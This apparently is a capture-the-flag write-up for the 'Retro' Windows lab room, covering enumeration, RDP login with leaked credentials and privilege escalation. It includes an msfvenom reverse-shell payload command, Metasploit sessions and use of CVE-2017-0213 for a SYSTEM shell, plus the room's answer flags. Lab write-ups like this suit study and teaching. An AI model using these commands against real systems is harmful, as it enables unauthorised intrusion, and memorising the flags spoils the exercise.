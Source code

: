 # Retro

```
Can you time travel? If not, you might want to think about the next best thing.

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

-------------------------------------

There are two distinct paths that can be taken on Retro. One requires significantly less trial and error, however, both will work. Please check writeups if you are curious regarding the two paths. An alternative version of this room is available in it's remixed version Blaster.
```

## Task 1 Pwn

```
#1 A web server is running on the target. What is the hidden directory which the website lives on?

/retro
```
```
#2 user.txt (+) 50

3b99fbdc6d430bfb51c72c651a261927
```
```
#3 root.txt (+) 100

7958b569565d7bd88d10c6f22d1c4063
```

### Code

```
export ip=10.10.121.250
```
## nmap scan
Again the machine denies icmp PING, using -Pn ...
```
$ nmap -sC -sV -Pn -oN nmap.txt $ip

# Nmap 7.80 scan initiated Thu Jun 25 14:19:46 2020 as: nmap -sC -sV -Pn -oN nmap.txt 10.10.121.250
Nmap scan report for 10.10.121.250
Host is up (0.085s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2020-06-25T11:20:04+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2020-06-24T11:18:26
|_Not valid after:  2020-12-24T11:18:26
|_ssl-date: 2020-06-25T11:20:05+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun 25 14:20:05 2020 -- 1 IP address (1 host up) scanned in 18.86 seconds

```
## gobuster
```
$ gobuster dir -u http://$ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.121.250
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/25 14:21:30 Starting gobuster
===============================================================
/retro (Status: 301)

```
Found a $ip/retro dir, website about retro games, on Task #2 I found that the author is Wade, and he left a comment @ $ip/retro/index.php/2019/12/09/ready-player-one/#comment-2, stating:
```
"
	Wade
	December 9, 2019

Leaving myself a note here just in case I forget how to spell it: parzival
"
```
so 'parzival' is a potential password and 'Wade' is a username ...
```
Windows creds = wade:parzival
```
There is rdp on the box so lets try login with the creds ... IT WORKED !

user.txt @ Desktop : 3b99fbdc6d430bfb51c72c651a261927

pic1.png
pic2.png - we can see that there is something in the recycle bin ...
pic3.png - we can see a hint CVE-2019-1388 @ the bookmarks in Google Chrome ...
A quick Google search leads us here

hhupd.exe @ Desktop : found this CVE-2019-1388 @ https://www.nagenrauft-consulting.com/2019/11/21/cve-2019-1388-hhupd-exe/

https://www.youtube.com/watch?v=3BQKpPNlTSo - video on the exploit from the site above ...

Lets try it !

Uh OH
pic4.png - a bummer there is an issue with the default browser entry... lets try to fix that

Meh, still nothing, I am going to try Metasploits exploit Suggester to see anything else...
Lets create a meterpreter shell exe and put it on the victim via simple.http server ...
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<local ip> LPORT=4447 -f exe > shell.exe
```
```
[*] Started reverse TCP handler on <local ip>:4447 
[*] Sending stage (176195 bytes) to 10.10.121.250
[*] Meterpreter session 1 opened (<local ip>:4447 -> 10.10.121.250:50636) at 2020-06-25 14:59:35 +0300

meterpreter > getuid
Server username: RETROWEB\Wade
meterpreter > bg
$ use post/multi/recon/local_exploit_suggester;

msf5 post(multi/recon/local_exploit_suggester) > set SESSION 1
msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.121.250 - Collecting local exploits for x86/windows...
[*] 10.10.121.250 - 32 exploit checks are being tried...
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.121.250 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[*] Post module execution completed

```

lets use exploit/windows/local/ikeext_service

```
msf5 exploit(windows/local/ikeext_service) > show options 

Module options (exploit/windows/local/ikeext_service):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   DIR                       no        Specify a directory to plant the DLL.
   SESSION  1                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     <local ip>        yes       The listen address (an interface may be specified)
   LPORT     4447             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows x64


msf5 exploit(windows/local/ikeext_service) > run
[*] Started reverse TCP handler on <local ip>:4447 
[*] Checking service exists...
[!] UAC is enabled, may get false negatives on writable folders.
[*] Checking %PATH% folders for write access...
[*] Sending stage (201283 bytes) to 10.10.121.250
[*] Path C:\Users\Administrator\AppData\Local\Microsoft\WindowsApps does not exist...
[*] Path  does not exist...
[*] Meterpreter session 2 opened (<local ip>:4447 -> 10.10.121.250:51135) at 2020-06-25 15:20:41 +0300 
[*] Attempting to create a non-existant PATH dir to use.
[-] Exploit aborted due to failure: not-vulnerable: Unable to write to any folders in the PATH, aborting...
[*] Exploit completed, but no session was created.

```

OK ... lets use a python script then - windows-privesc-check(https://github.com/pentestmonkey/windows-privesc-check)

BINGO! It seems vulnerable to CVE-2017-0213
(https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213)

lets run CVE-2017-0213_x64.exe, and here we go a system shell

```
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 7443-948C

 Directory of C:\Users\Administrator\Desktop

12/08/2019  09:06 PM    <DIR>          .
12/08/2019  09:06 PM    <DIR>          ..
12/08/2019  09:08 PM                32 root.txt.txt
               1 File(s)             32 bytes
               2 Dir(s)  30,333,550,592 bytes free

C:\Users\Administrator\Desktop>type root.txt.txt
7958b569565d7bd88d10c6f22d1c4063
```
